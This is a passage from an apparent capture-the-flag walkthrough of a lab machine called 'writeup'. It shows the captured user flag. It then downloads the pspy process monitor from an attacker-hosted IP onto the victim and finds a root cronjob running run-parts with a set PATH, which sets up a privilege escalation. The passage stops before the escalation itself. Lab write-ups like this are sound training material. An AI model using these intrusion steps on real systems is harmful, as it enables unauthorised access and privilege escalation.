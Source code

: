 ```
jkr\@writeup:\~\$ ls

user.txt

jkr\@writeup:\~\$ cat user.txt

d4e493fd4068afc9eb1aa6a55319f978
```


Privilege Escalation
--------------------

### Enumeration

Downloading pspy64 executable to the victim machine. pspy is a really useful CLI
tool which helps to see comamands run by users and cronjobs.
https://github.com/DominicBreuker/pspy

```
jkr\@writeup:\~\$ wget 10.10.15.99/pspy64

\--2019-09-29 17:51:22-- http://10.10.15.99/pspy64

Connecting to 10.10.15.99:80... connected.

HTTP request sent, awaiting response... 200 OK

Length: 3078592 (2.9M)

Saving to: ‘pspy64’

pspy64 100%[===================\>] 2.94M 708KB/s in 5.5s

2019-09-29 17:51:35 (546 KB/s) - ‘pspy64’ saved [3078592/3078592]
```

Running pspy to discover that there is a cronjob running run-parts executable
with a PATH variable specified:

```
jkr\@writeup:\~\$ ./pspy64

\<---------snippet--------------\>

2019/10/01 22:58:14 FS: ACCESS \| /var/log/auth.log

2019/10/01 22:58:14 FS: CLOSE_NOWRITE \| /var/log/auth.log

2019/10/01 22:58:14 FS: OPEN \| /etc/passwd

2019/10/01 22:58:14 FS: CLOSE_NOWRITE \| /etc/passwd

2019/10/01 22:58:14 FS: OPEN \| /etc/passwd

2019/10/01 22:58:14 FS: CLOSE_NOWRITE \| /etc/passwd

2019/10/01 22:58:14 FS: OPEN \| /etc/login.defs

2019/10/01 22:58:14 FS: ACCESS \| /etc/login.defs

2019/10/01 22:58:14 FS: CLOSE_NOWRITE \| /etc/login.defs

2019/10/01 22:58:14 CMD: UID=0 PID=3695 \| sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts
--lsbsysinit /etc/update-motd.d \> /run/motd.dynamic.new
```